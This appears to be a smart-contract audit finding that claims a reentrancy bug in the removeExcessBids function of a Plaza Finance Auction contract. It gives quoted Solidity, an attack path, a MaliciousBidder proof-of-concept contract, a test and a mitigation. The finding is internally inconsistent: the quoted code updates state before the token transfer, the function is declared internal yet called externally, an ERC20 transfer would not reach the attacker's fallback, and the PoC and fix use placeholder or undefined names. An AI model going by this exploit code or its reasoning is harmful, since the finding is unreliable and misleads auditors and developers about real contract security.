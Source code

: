 Urban Lemon Wolverine

High

# Reentrancy in `removeExcessBids` function call allows a malicious bidder to re-enter the contract and manipulate its state, leading to loss of funds

### Summary

The `removeExcessBids` function in the provided smart contract is vulnerable to a reentrancy attack. The vulnerability arises due to the external call `IERC20(buyCouponToken).safeTransfer` made during the reduction of a bid. This call allows a malicious bidder to re-enter the contract and manipulate its state, leading to theft of funds or incorrect contract behavior.

### Root Cause

The `removeExcessBids` function iterates over bids and adjusts or removes them to maintain the total sell coupon amount within the defined limits. During this process, it refunds excess sell coupons to the bidder using an external call:
https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L286
```solidity
IERC20(buyCouponToken).safeTransfer(currentBid.bidder, amountToRemove);
```
This external call is made before updating the contract's internal state. A malicious bidder can exploit this by re-entering the contract and invoking state-altering functions, leading to inconsistencies or manipulation of bids.
https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Auction.sol#L264-L290
```solidity
      if (amountToRemove >= sellCouponAmount) {
        // Subtract the sellAmount from amountToRemove
        amountToRemove -= sellCouponAmount;

        // Remove the bid
        _removeBid(currentIndex);

        // Move to the previous bid (higher price)
        currentIndex = prevIndex;
      } else {
        // Calculate the proportion of sellAmount being removed
        uint256 proportion = (amountToRemove * 1e18) / sellCouponAmount;
        
        // Reduce the current bid's amounts
        currentBid.sellCouponAmount = sellCouponAmount - amountToRemove;
        currentCouponAmount -= amountToRemove;

        uint256 reserveReduction = ((currentBid.buyReserveAmount * proportion) / 1e18);
        currentBid.buyReserveAmount = currentBid.buyReserveAmount - reserveReduction;
        totalSellReserveAmount -= reserveReduction;
        
        // Refund the proportional sellAmount
        IERC20(buyCouponToken).safeTransfer(currentBid.bidder, amountToRemove);
        
        amountToRemove = 0;
        emit BidReduced(currentIndex, currentBid.bidder, currentBid.buyReserveAmount, currentBid.sellCouponAmount);
      }
```

### Internal Pre-conditions

_No response_

### External Pre-conditions

_No response_

### Attack Path

The `_removeBid` function in the `Auction` contract contains a reentrancy vulnerability. This vulnerability arises because the function makes an external call to transfer tokens before updating the state variables. An attacker could exploit this by re-entering the function through the external call and manipulating the state, leading to loss of funds.

1. Initial state:
Assume the auction has several bids, and the `currentCouponAmount` is 10,000 tokens.
The `totalSellReserveAmount` is 5,000 tokens.
The `lowestBidIndex` points to the lowest bid in the linked list.

2. Attacker's bid:
The attacker places a bid of 1,000 tokens (`sellCouponAmount`) with a `buyReserveAmount` of 500 tokens.
This bid is added to the auction, and the `currentCouponAmount` becomes 11,000 tokens, and `totalSellReserveAmount` becomes 5,500 tokens.

3. Triggering `removeExcessBids`:
The `removeExcessBids` function is called because the currentCouponAmount exceeds the `totalBuyCouponAmount`.
The function identifies the attacker's bid as an excess bid and calls `_removeBid` to remove it.

4.Reentrancy Attack:
During the execution of `_removeBid`, the function calls `IERC20(buyCouponToken).safeTransfer` to refund the attacker's `sellCouponAmount`.
The attacker has a malicious contract that re-enters the `removeExcessBids` function during the external call.
The re-entered `removeExcessBids` function again identifies the attacker's bid as an excess bid and calls `_removeBid` again.
This process repeats, allowing the attacker to drain the contract by repeatedly triggering the refund mechanism.

### Impact
With example:
1. Initial call: The attacker receives a refund of 1,000 tokens.
2. Re-entrance: The attacker re-enters and receives another refund of 1,000 tokens.
3. Repeated re-entrance: This process continues, allowing the attacker to drain the contract of all available tokens.

Malicious bidders can repeatedly re-enter the contract during the refund process, allowing them to drain funds.

The internal state (e.g., bid records, `currentCouponAmount`) can be manipulated, leading to inconsistent or incorrect auction behavior.

### PoC

Below is an example of a malicious bidder contract exploiting the vulnerability.
```solidity
contract MaliciousBidder {
    address target;

    constructor(address _target) {
        target = _target;
    }

    function attack() external {
        // Place a malicious bid
        // Assuming necessary ERC20 tokens are already approved
        TargetContract(target).bid(100, 50);
    }

    fallback() external payable {
        // Re-enter the contract
        TargetContract(target).removeExcessBids();
    }
}
```
Here is a test that demonstrates the reentrancy attack:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "path_to/TargetContract.sol";
import "path_to/MaliciousBidder.sol";

contract ReentrancyTest is Test {
    TargetContract target;
    MaliciousBidder attacker;

    function setUp() public {
        target = new TargetContract();
        attacker = new MaliciousBidder(address(target));

        // Setup tokens and approvals
        IERC20(token).approve(address(target), type(uint256).max);
    }

    function testReentrancy() public {
        // Place a legitimate bid first
        target.bid(100, 50);

        // Execute the attack
        attacker.attack();

        // Verify the impact
        assertEq(target.currentCouponAmount(), 0, "Coupons were not drained");
        assertGt(attacker.balance(), 0, "Attack failed");
    }
}
```

### Mitigation

1. Ensure that all state updates are completed before making any external calls.
2. Use a reentrancy guard (e.g., OpenZeppelin’s ReentrancyGuard) to prevent re-entrant calls.
```solidity
function removeExcessBids() internal nonReentrant {
    if (currentCouponAmount <= totalBuyCouponAmount) {
        return;
    }

    uint256 amountToRemove = currentCouponAmount - totalBuyCouponAmount;
    uint256 currentIndex = lowestBidIndex;

    while (currentIndex != 0 && amountToRemove != 0) {
        Bid storage currentBid = bids[currentIndex];
        uint256 sellCouponAmount = currentBid.sellCouponAmount;
        uint256 prevIndex = currentBid.prevBidIndex;

        if (amountToRemove >= sellCouponAmount) {
            amountToRemove -= sellCouponAmount;
            _removeBid(currentIndex);
            currentIndex = prevIndex;
        } else {
            uint256 proportion = (amountToRemove * 1e18) / sellCouponAmount;
            currentBid.sellCouponAmount -= amountToRemove;
            currentCouponAmount -= amountToRemove;

            uint256 reserveReduction = ((currentBid.buyReserveAmount * proportion) / 1e18);
            currentBid.buyReserveAmount -= reserveReduction;
            totalSellReserveAmount -= reserveReduction;

            amountToRemove = 0;
        }
    }

    // Perform all refunds after state updates
    for (uint256 i = 0; i < refunds.length; i++) {
        IERC20(buyCouponToken).safeTransfer(refunds[i].bidder, refunds[i].amount);
    }
}
```